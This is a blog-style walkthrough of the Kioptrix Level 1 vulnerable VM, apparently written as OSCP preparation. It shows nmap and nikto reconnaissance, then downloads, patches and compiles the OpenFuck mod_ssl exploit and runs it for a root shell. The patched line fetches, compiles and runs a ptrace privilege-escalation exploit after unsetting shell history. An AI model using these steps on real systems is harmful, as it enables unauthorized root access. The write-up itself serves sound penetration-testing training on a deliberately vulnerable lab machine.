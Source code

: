 ```yaml
---
layout: post
title: You're up and running!
published: true
---
```

---
layout: post
title: Vulnerable VMs: Kioptrix Pt. 1
published: true
---

The Kioptrix series of vulnerable VMs closely resemble the material presented in the PWK course, and the OCSP exam. Kioptrix Level 1 starts out relatively easy, so let’s get started:

Once we have the VM loaded in bridged adapter mode (directly connected to physical network), let’s quickly scan our subnet for the machine:

```bash
nmap -sS -T5 192.168.1.0/24
```
 

Our output shows that our target is at `192.168.1.104`. Let’s perform a direct scan that fingerprints open ports/services:

```bash
nmap -sV -sT -A -T4 -sC 192.168.1.104
```
 

Which tells us that an Apache web server is running on the target:

```
443/tcp  open  ssl/https  Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-01-28T00:10:51+00:00; -37d09h58m43s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
...snip..
```

Notably, this server is running a very outdated version of Apache and OpenSSL. We think the version of OpenSSL has a working exploit, however, let’s confirm our suspicion with a quick `nikto` scan:

```bash
nikto -h 192.168.1.104:80
```
 

Which returns an interesting line:
```
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
```


`nikto` confirms our suspicion that `mod_ssl` has an RCE vulnerability in versions 2.8.7 and lower. Let’s find the exploit:

```bash
searchsploit mod_ssl 2.8.7
```
 

`searchsploit` is telling us that the exploit is at `/usr/share/exploitdb/platforms/unix/remote/21671.c`. However, this version was a bit outdated, so I downloaded my exploit straight from exploit-db:

```bash
wget https://www.exploit-db.com/download/764
```
 

Now, we have to make a few changes to the source code since this exploit is a bit outdated. First, there is a hard-coded line to `wget` some resources from packetstormsecurity, however, their download domain has changed since then. Find the following line:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```


and replace it with:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```
 

Now we need to import the RC4/MD5 OpenSSL libraries for compatibility with this legacy SSL version. Add the following include statements:

```c
#include openssl/rc4.h
```
```c
#include openssl/md5.h
```
 

And compile the exploit per the instructions in the code comments:

```bash
gcc -o pwn 764.c -lcrypto
```
 

Run the exploit with the following arguments (Note, the 0x6b argument specifies the version of apache/server platform, detailed in exploit help):

```bash
./pwn 0x6b 192.168.1.104
```
 

And you get a root shell! Easy peasy.

